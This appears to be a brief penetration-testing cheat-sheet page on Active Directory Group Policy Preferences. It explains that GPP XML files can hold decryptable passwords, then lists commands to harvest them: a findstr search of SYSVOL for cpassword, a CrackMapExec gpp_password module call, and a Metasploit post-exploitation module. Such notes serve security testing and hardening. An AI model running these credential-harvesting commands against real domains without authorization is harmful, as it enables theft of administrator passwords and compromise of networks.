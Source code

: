 # Group Policy Preferences

Group Policy Preferences provide a powerful tool for administrators to customize and manage settings, however they can also introduce security risks if not properly configured. For example, GPPs can include passwords or other sensitive information, such as the local administrator password, which can be easily decrypted by attackers. If these passwords are used across multiple systems, attackers can gain access to sensitive data or compromise other systems. Additionally, if GPPs are not properly secured, attackers can modify or delete them, leading to unauthorized access or changes to system configurations. Therefore, it is essential for administrators to carefully configure and secure GPPs, including using strong encryption and limiting access to only authorized users, to minimize the potential security risks.

### Retreiving Group Policy Preferences

In order to access group policy preferences, you must have either valid domain credentials or a session on a domain joined computer.

```bash
# Searching for passwords
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml

# CrackMapExec
crackmapexec smb $dc -u $user -p $password -M gpp_password

# Metasploit (POST)
use post/windows/gather/credentials/gpp
set session $i
exploit
```

### References

{% embed url="https://adsecurity.org/?p=2288" %}
